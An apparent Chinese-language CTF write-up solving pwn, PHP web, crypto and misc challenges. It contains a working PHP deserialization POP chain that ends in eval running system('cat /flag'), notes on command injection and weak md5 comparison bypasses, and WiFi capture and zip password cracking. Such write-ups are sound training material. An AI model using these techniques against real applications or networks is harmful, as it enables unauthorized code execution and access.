 # pwn
1. 真nc就给flag

    nc pwn.aw31-hack.top 10002

直接nc一下进取，cat/flag.txt就完事了
2. nc就给flag
![](./i/10.png)

比较狗，提示stdout is close，那我们输入一个参数

    exec 1>&0

就可以继续获取我们的flag了

# web
1. easy_md5
![](./i/1.png)

php的弱比较，找md5前和md5后都是0e开头的，第一个比较是数组不能被md5化

2. php_is_the_best_language

查看源码有提示，传个猴子我是没想到的，套神太强了

![](./i/2.png)

绕过第一个比较，数字后面随便加字符就行，绕过第二个写个php就可以找到

```php
<?php 
for ($i=0;$i < 100000;$i++){
 $shell=md5($i);
 if(substr($shell,5,5)=== "dc3ad"){
 echo "$shell<br />";
 echo $i; 
 }
}
?>
```
3. [echo] More than just 🐎?

尝试着，再看传参应该是命令注入，已知cmd[]=传入数组会报错，试着试着就出来了，这题真的迷糊，不知道为啥cat /flag不行，估计后台过滤了

![](./i/3.png)

4. 重复几次

太阴了，buu有题，hint提示fl@g和ffffllllaaaagggg被误导了，结果是flag，套神师傅饶了我吧

![](./i/4.png)

5. php_serialize_2

一道比较简单的反序列化构造，直接上pop
```php
<?php
class class1{
    public $var1;
    public $var2;
    public function __construct()
    {
        echo "Have Fun!!!";
    }
    public function __wakeup()
    {
        $this->var1->solving();
    }
}
class class2
{
    public $var1;
    public $var2;
    public function solving()
    {
        echo "Solved???";
    }
}
class class3
{
    public $var1;
    public $var2;
    public function solving()
    {
        $this->var2->getFlag();
    }
}
class class4
{
    public $var1='flag{this_is_not_Flag}';
    public $var2;
    public function getFlag()
    {
        echo "flag{".$this->var1."}";
    }
}
class class5
{
    public $var1;
    public $var2;
    public function hackCmd($cmd)
    {
        @eval($cmd);
    }
    public function call()
    {
       $this->hackCmd($this->var1);

    }


}
class class6
{
    public $var1;
    public $var2;
    public function __toString()
    {
        $this->var1->hack();
        return "{this_is_not_Flag}";
    }
}
class class7
{
    public $var1="AWSL";
    public $var2;
    public function __invoke()
    {
        echo "Bite Me".$this->var1;
    }
}
class class8
{
    public $var1;
    public $var2;
    public function hack()
    {
        echo "决胜局～";
        $this->var1->call();
    }
}
if(isset($_GET['a']))
{
    unserialize($_GET['a']);
}
$a=new class1;
$a->var1=new class3;
$a->var1->var2=new class4;
$a->var1->var2->var1=new class6;
$a->var1->var2->var1->var1=new class8;
$a->var1->var2->var1->var1->var1=new class5;
$a->var1->var2->var1->var1->var1->var1="system('cat /flag');";
echo urlencode(serialize($a));
?>
```
![](./i/5.png)

感动，人生第一次做出来ctf比赛的反序列化

# Crypto
1. 凯撒加入了北约
看到那么多新生都做出来，亚历山大，看了半天才试出来，先把首字母截取

```python
s='Charlie Hotel Alfa Romeo Lima India Echo Alfa Lima Foxtrot Alfa Echo Charlie Hotel Oscar Sierra India Echo Romeo Romeo Alfa Alfa Lima Foxtrot Alfa Romeo Oscar Mike Echo Oscar India November Delta India Alfa November Oscar Victor Echo Mike Bravo Echo Romeo November Oscar Victor Echo Mike Bravo Echo Romeo Alfa Lima Foxtrot Alfa Tango Alfa November Golf Oscar Oscar Sierra Charlie Alfa Romeo'
for i in s:
    if ord(i)>64 and ord(i) < 91:
        print(i,end="")
```

得到

CHARLIEALFAECHOSIERRAALFAROMEOINDIANOVEMBERNOVEMBERALFATANGOOSCAR

然后全都转换成小写，再认识一下单词，英语不太好，再把所有单词首字母提出来就是flag了

# misc
1. Unicode

太阴了，还有隐藏字符，，，，，直接unidecode两次

![](./i/6.png)

2. lsb

,查看颜色通道，有个通道上面有牙啃得东西，送分题

![](./i/7.png)

3. peekaboo

首先是密码暴力破解，六位数密码，破解出来后是个world，无法打开，binwalk分离一下，成功获取flag

4. re

根据题目，先re，然后直接转换图片flag就出来了

5. 破解WIFI密码

破解这个.cap

![](./i/8.png)

获得密码admin123

6. miku

有点类似祥云杯的一道misc，emmm想了好久

gif先分离，发现只有两种图片，第一直觉是二进制，然后先尝试转换了一下二进制，想了半天应该不是ascii，也不是ascii加凯撒，最终发现729可以开方，这就好办了，直接弄成二维码，果然就是二维码

![](./i/9.png)